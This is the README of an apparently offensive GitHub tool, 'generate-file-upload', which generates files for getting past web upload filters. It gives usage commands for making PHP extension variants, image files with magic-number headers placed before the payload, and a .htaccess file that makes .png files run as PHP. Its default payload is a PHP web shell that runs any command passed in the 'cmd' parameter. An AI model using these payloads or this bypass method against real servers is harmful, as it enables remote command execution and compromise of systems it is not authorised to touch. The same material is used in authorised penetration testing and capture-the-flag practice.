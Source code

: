 # generate-file-upload
Generate some payload to bypass restriction when you perform a file upload

Generate in `Payloads/` all extension for PHP

## Installation & Usage

```
git clone https://github.com/LighTend3r/generate-file-upload.git
cd ./generate-file-upload
```
To install it, write the command above

```
python3 upfile.py -h
```
If you want help to understand the programme

-----

## Exemple of usage :
```
python3 upfile.py
```
Generate all extension in PHP


```
python3 upfile.py -b
```
Generate all bypass for PHP


```
python3 upfile.py -n test -p test -ext php
```
Generate file named `test.php` which contain `test`


```
python3 upfile.py -b -m png
```
Generate all files bypass for PHP, which contain `magicNumber + payload`


```
python3 upfile.py -ext png -ht png
```
Generate `.htaccess` which allow execution of php with extension .png and create `paylaod.png`

-----

## Options

Default name : `payload`

Default file : `PHP`

Default payload : `<?php system($_GET["cmd"]); ?>`

```
usage: upfile.py [-h] [-d] [-p <payload>] [-f {php}] [-ext <ext>] [-b] [-n <name>] [-m {png,jpg}] [-ht <ext>]

Generate some payload to bypass restriction when you perform a file upload

options:
  -h, --help            show this help message and exit
  -d, --debug           Seen the debug to see the process
  -p <payload>, --payload <payload>
                        The payload in the files
  -f {php}, --file {php}
                        The type of the files
  -ext <ext>, --extension <ext>
                        Generate the payload with specific extension
  -b, --bypass          Bypass the restriction
  -n <name>, --name <name>
                        Name of the file
  -m {png,jpg}, --magic {png,jpg}
                        Magic Header, add the magics numbers before the payload
  -ht <ext>, --htaccess <ext>
                        Creates in addition a .htaccess file, which allow execution of php whith extension that you
                        have chosen
   ```         
